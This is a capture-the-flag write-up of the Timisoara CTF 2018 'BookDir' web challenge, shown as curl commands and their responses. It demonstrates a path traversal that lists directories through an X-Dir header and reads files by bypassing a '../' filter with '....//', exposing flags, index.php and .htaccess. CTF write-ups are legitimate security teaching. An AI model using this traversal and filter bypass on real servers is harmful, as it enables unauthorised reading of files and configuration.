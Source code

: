# CTF - 2018 - Timisoara CTF 2018 Quals / Web / BookDir

## Part 1 - 125 pts
- We get a list of book :
```
curl -H 'X-Dir: .' "http://89.38.210.129:8012/books/booklist.php"                                                                                                                                             
[{"name":"Beloved"},{"name":"Catch-22"},{"name":"Lolita"},{"name":"Nineteen Eighty-Four"},{"name":"The Catcher in the Rye"},{"name":"The Grapes of Wrath"},{"name":"The Great Gatsby"},{"name":"The Sound and the F
ury"},{"name":"Ulysses"}]
```

- We can go backward with ../
```
curl -H 'X-Dir: ../' "http://89.38.210.129:8012/books/booklist.php"                                                                                                                                           
[{"name":"4o4_fl4g_n0t_f0und.php"},{"name":"booklist.php"},{"name":"books.js"},{"name":"css"},{"name":"index.html"},{"name":"list"},{"name":"vendor"}]
```

- We find the `4o4_fl4g_n0t_f0und.php` and we will try to read it

- Using param f we can read file :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=Beloved"                                                                                                                                 
"\"124 was spiteful. Full of baby's venom. The women in the house knew it and so did the children.\"\n"
```

- After some test, we found that  `../` is filtered and we need to double it to bypass `....//`:
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//4o4_fl4g_n0t_f0und.php"                                                                                                            
"<?php\n\/\/ timctf{f0und_f1rst_p4rt___wh4t_n3xt}\n\n\/\/ Can you get the second part? :^)\n"
```

- Demo here : [![asciicast](https://asciinema.org/a/cWNRvHjmR5wmIhsptmQBx2hJz.png)](https://asciinema.org/a/cWNRvHjmR5wmIhsptmQBx2hJz?speed=2)

## Part 2 - 75 pts
- We will try to read index.php :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//index.php"                                                                                                                                   
"<?php\n\n\/\/ TRY HARDER\nheader('Location: books\/');\n"
```

- So let's try to get .htaccess :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//.htaccess"                                                                                                                                   
"<Files .htaccess>\n  Order allow,deny\n  Deny from all\n<\/Files>\n\n<Files w0w_y0u_g0t_m3___.php>\n  Order allow,deny\n  Deny from all\n<\/Files>\n\nRewriteEngine On\nRewriteRule ^(?:books\/list)\\b.* \/403.ph
p\n"
```

- find `w0w_y0u_g0t_m3___.php`, let's read it :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//w0w_y0u_g0t_m3___.php"                                                                                                                       
"<?php\n\n\/\/ timctf{b0Ok5_4r3_4m4z1ng}\necho 'c0ngr4ts!';\n"
```

- Flag \o/

- Demo here : [![asciicast](https://asciinema.org/a/8Sw5A1kr088QRstaQ7VSLuHGZ.png)](https://asciinema.org/a/8Sw5A1kr088QRstaQ7VSLuHGZ?speed=2)  
